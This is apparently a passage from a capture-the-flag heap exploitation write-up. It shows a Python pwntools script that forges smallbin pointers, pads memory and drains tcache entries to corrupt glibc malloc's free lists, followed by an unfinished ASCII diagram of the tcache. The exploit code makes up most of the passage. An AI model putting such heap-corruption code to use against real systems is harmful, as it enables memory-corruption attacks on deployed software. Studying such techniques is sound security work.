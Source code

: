 ```python
for i in range(BINS):
    # This ended up being unused, it was here to help control the length
    # of the list of smallbins leading to the bin we wanted to overwrite
    p.send(p64(fake_bins + (i+1)*0x20)) # dummy
    p.send(p64(fake_bins + (i+1)*0x20)) # dummy
    p.send(p64(fake_bins + (i+1)*0x20)) # fd
    p.send(p64(fake_bins + (i+1)*0x20)) # bk

p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
p.send(b"\x00" * 16)
p.send(b"\xc8\x46\n")

p.send(b"30")
p.send(b"Y" * (start_bin - start_overwrite_from))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(p64(target_bin))
p.send(b"\n")

# Pop the tcache entries.
for i in range(7):
    p.send(b"58\n")

# Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
p.send(b"58\n")
```

The situation looks something like this:

```
        +--------+
        | tcache |
        |        |
  /-----|0x40    |
  |     |        |
  |  /--|0x60    |
  |  |  |        |
  |  |  |        |
  |  |  +--------+
  |  |
  |  |
  |  |
  |  |
  |  |
  |  |              
  |  |  +---------+ 
  |  |  |     next|->NULL
  |  |  +---------+
  |  |           ^  
  |  |  +---------+ 
  |  |  |     next| 
  |  |  +---------+
  |  |           ^  
  |  |      ...
  |  |           ^  
  |  |  +---------+ 
  |  |  |     next| 
  |  |  +---------+
  |  |           ^  
```